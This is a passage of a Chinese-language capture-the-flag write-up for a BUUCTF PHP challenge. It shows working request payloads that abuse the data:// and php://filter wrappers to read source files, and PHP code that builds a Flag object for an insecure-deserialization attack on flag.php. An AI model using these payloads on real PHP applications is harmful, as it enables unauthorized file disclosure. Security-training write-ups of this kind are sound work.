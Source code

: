 第一步,需要让`text`参数的值等于某个文件名,然后从该文件中还要读取到"welcome to the zjctf"

这里可以使用`data`伪协议(通常用来执行代码): **相当于让`file_get_contents`从`data`的流中读取数据**

```
http://a0e27bf5-f2af-4d14-8542-148fd03d2e29.node4.buuoj.cn:81/index.php?text=data://text/plain,welcome to the zjctf
```

<img src="/images/buuctf-web/image-20221016230039673-166704781973569.png" alt="image-20221016230039673" style="zoom:67%;" />



接下来需要给`file`传值,先用`php`伪协议来读一下提示里`useless.php`的源码试试:

```
?text=data://text/plain,welcome to the zjctf&file=php://filter/read=convert.base64-encode/resource=useless.php
```

把输出的内容解码:

```php
<?php  
class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

结合前面的代码,`password`的值会被反序列化,生成一个这里`Flag`类的实例. 而前面`echo $password`时,则会触发这里的`__tostring`魔术方法, 根据参数`file`的值去读文件,那么显然可以将它的值设为`flag.php`

所以现在在本地创建一个`Flag`类的实例,并将其`file`属性赋值为`flag.php`,最后将其序列化:

```php
<?php  
class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}
$a = new Flag();
$a->file='flag.php';
```